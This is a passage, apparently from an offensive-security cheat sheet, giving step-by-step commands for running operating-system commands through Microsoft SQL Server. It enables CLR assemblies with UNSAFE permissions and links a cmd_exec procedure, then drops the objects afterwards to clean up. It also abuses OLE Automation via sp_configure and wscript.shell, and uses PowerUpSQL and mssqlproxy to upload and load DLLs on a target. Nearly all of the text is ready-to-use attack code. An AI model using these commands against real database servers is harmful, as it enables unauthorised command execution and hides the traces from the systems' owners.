 	CREATE ASSEMBLY my_assembly
	FROM 'c:\temp\cmd_exec.dll'
	WITH PERMISSION_SET = UNSAFE;
	```
4. Link the assembly to a stored procedure
	```sql
	CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
	GO
	```
5. Execute and clean
	```sql
	cmd_exec "whoami"
	DROP PROCEDURE cmd_exec
	DROP ASSEMBLY my_assembly
	```

**CREATE ASSEMBLY** will also accept an hexadecimal string representation of a CLR DLL

```sql
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM 
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE 
GO 
```

## OLE Automation

* :warning: Disabled by default
* The execution takes place with privileges of the **service account**.

### Execute commands using OLE automation procedures

```ps1
Invoke-SQLOSCmdOle -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "whoami" Verbose
```

```ps1
# Enable OLE Automation
EXEC sp_configure 'show advanced options', 1
EXEC sp_configure reconfigure
EXEC sp_configure 'OLE Automation Procedures', 1
EXEC sp_configure reconfigure

# Execute commands
DECLARE @execmd INT
EXEC SP_OACREATE 'wscript.shell', @execmd OUTPUT
EXEC SP_OAMETHOD @execmd, 'run', null, '%systemroot%\system32\cmd.exe /c'
```


```powershell
# https://github.com/blackarrowsec/mssqlproxy/blob/master/mssqlclient.py
python3 mssqlclient.py 'host/username:password@10.10.10.10' -install -clr Microsoft.SqlServer.Proxy.dll
python3 mssqlclient.py 'host/username:password@10.10.10.10' -check -reciclador 'C:\windows\temp\reciclador.dll'
python3 mssqlclient.py 'host/username:password@10.10.10.10' -start -reciclador 'C:\windows\temp\reciclador.dll'
SQL> enable_ole
SQL> upload reciclador.dll C:\windows\temp\reciclador.dll
```
